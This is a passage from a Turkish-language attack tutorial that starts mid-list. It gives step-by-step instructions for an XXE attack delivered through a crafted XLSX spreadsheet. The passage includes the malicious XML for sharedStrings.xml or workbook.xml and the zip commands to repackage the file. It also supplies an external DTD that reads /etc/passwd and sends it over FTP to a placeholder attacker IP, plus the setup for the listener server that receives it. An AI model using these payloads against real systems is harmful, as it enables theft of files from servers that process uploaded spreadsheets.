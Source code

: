 Alternatif: `xl/sharedStrings.xml` içine de eklenebilir

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [
  <!ELEMENT t ANY >
  <!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">
  %asd;
  %c;
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10">
  <si><t>&rrr;</t></si>
  <si><t>testA2</t></si>
  ...
</sst>
```

veya 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```


3.  Dosyayı Yeniden Paketle

```
cd XXE
zip -r -u ../xxe.xlsx *
```

 **ÖNEMLİ:** `zip -u` kullan. `7z a` veya `7zz` **uyumsuz sıkıştırma algoritması** kullanabilir ve dosya Excel tarafından tanınmaz.

4.  Export DTD Dosyasını Oluştur

```
<!-- xxe.dtd -->
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

Bu dosya sunucudan çekildiğinde şunu yapar:

- `/etc/passwd` dosyasını alır
- FTP üzerinden senin IP’ne `rrr` entity’si ile yollar


5. FTP + HTTP Server'ı Kur

```
git clone https://github.com/staaldraad/xxeserv
cd xxeserv
python3 xxeserv.py -o files.log -p 2121 -w -wd public -wp 8000
```
